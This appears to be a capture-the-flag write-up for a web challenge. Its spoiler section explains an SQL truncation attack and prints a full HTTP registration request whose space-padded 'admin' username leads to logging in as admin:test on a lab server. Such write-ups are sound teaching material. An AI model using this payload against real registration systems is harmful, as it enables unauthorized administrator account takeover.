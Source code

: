 # Cate Bianca
**Category:** web

**Author:** styx00

## Description
This is a website dedicated to an exceptional player who originates from a small village in Switzerland called Trun. Cate was a sensational player whose career was shortened by the weaknesses of her vendors and ultimately led to her defeat in the 2018 U.S. Chess Championship semifinals.

## Solution

<details>
 <summary>Reveal Spoiler</summary>

The application (http://172.16.5.11:7500) is vulnerable to SQL Truncation.
- More info @ [SQL Truncation Attack](https://linuxhint.com/sql-truncation-attack/)

```
POST /register_user.php HTTP/1.1
Host: 172.16.5.11:7500
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

username=admin+++++++++++++++b&password=test
```

Then login to the application using `admin:test`.

</details>
